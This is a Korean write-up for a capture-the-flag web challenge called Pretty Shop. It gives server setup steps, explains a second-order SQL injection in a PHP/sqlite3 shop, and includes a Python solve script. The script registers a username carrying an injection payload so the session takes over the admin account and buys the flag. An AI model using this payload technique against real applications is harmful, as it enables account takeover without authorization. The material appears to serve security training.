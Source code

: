 # Pretty Shop (Hackingcamp 18)

```
문제명 : Pretty shop
출제자 : 문시우
난이도 : 하
```

### 문제 셋팅

환경 : `apache2, php7.2.7, sqlite3`

1. apache2 설치하고 mod_rewrite 모듈 로드  
$ sudo rewrite.load ../mods-enabled/

2. apache2.conf에서 .htaccess 인식하도록 설정  
AllowOverride를 None에서 All로 바꿔주면 됨

3. sqlite3 설치 및 php-sqlite3 모듈 활성화
$ sudo apt-get install sqlite3  
$ sudo apt-get install php-sqlite3  
$ /etc/php/7.x/apache2/php.ini 에서 ;extension=php_sqlite3.dll 앞에있는 ; 지우기


### 취약점 개요

Concept : Indirect sql injection in sqlite3

`/classes/Shop.class.php` 에서 취약점 발생  
line 42 : `$user = $this->get_user_information($_SESSION['username']);`  
`get_user_information` 메소드로 `$_SESSION['username']`를 그대로 넘겨주고 있다.


### 풀이 방법

```python
from requests import post
# pretty shop write up

def main() :
	username = "username=-1'/**/and/**/0/**/or/**/username='admi'||'n';--"
	data = {"username": username, "password": "12345"}
	r = post('http://layer7.kr:6005/register', data=data)

	r = post('http://layer7.kr:6005/login', data=data)
	cookies = {'PHPSESSID':r.cookies['PHPSESSID']}

	get_flag = post('http://layer7.kr:6005/buy', data={'item':'flag'}, cookies=cookies)
	print(get_flag.text)

if __name__ == '__main__' :
	main()
```